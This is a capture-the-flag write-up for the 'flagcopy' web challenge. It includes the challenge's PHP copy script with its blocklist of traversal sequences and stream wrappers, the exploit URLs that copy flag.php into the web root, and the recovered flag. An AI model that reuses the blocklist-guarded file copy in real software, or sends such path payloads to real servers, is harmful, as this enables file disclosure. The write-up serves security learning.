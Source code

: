 # flagcopy
> Jack was a self-proclaimed pirate who believed that information wanted to be free

## About the Challenge
We were given a website that have a functionality the file called `flag.php` to new destination


[Image extracted text: Change Log
Version 1.0
Ahoy; me hearties! Jack the pirate here with an update for ye. Version 1.0 of the flag copy function is nOw
available. It's simple, its easy to use, and itIl save ye a fortune on software costs_
Give it a try; me hearties;
and ye won't be disappointed. Arrrr!
Copy flags herel
Source code]


If we press the `Source Code` button, we will be given a source code of `copy.php`

```php
<?php

// Make sure we have the destination filename
if(!isset($_GET['dest'])) {
    header('Content-Type: text/plain');
    header('Refresh: 2;url=..'); // Cool pirates don't use Location, docs: https://web.archive.org/web/20040811213204/http://devedge.netscape.com/library/manuals/1998/htmlguide/tags3.html
    echo "error! use: ?dest=<file>";
    exit(0);
}
$dst=$_GET['dest'];

// Prevent hackspettar
$disallow = Array(

    // Bad files
    'index.php', 'copy.php', 'flag.php',

    // Prevent traversals
    '..', './', '.\\',

    // Remove known bad characters
    '?','#','&', "\0",

    // Disallow bad protocols
    'http://','https://','ftp://','zip://','rar://','expect://','phar://','zlib://','glob://','ssh2://','ogg://',

    // TODO: Improve security
);
foreach($disallow as $word) {
    if (stripos($dst,$word) !== false) {
        echo "hacker attack detected!!1!";
        exit(0);
    }
}

// Copy the flag to it's new location
var_dump(copy('flag.php',$dst));
?>
```

So we can control the destination file

## How to Solve?
There are several levels that we need to pass in order to obtain the flag, and for these challenges, I am using the same payload for each level.

```
copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

If I set `/var/www/html/dappppppppppppppp.txt`, the file called `flag.php` will be copied into `/var/www/html/dappppppppppppppp.txt`. And we need to access http://flagcopy-1.ctf.hackaplaneten.se/dappppppppppppppp.txt to check the content of `flag.php`

Repeat that steps until you obtain the flag. Here is the link of each level

* Level 1
```
http://flagcopy-1.ctf.hackaplaneten.se/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 2
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 3
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final-pinky-promise-seriously/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```


[Image extracted text: k 
C
Not secure
flagcopy-1ctfhackaplaneten se/dappppppppppppppptxt
you
are
close
<?php
11 SECFEST{@ntlplratByren_wOulD_b3_
prouD}]


```
SECFEST{@nt1p1ratByr0n_w0ulD_b3_pr0uD}
```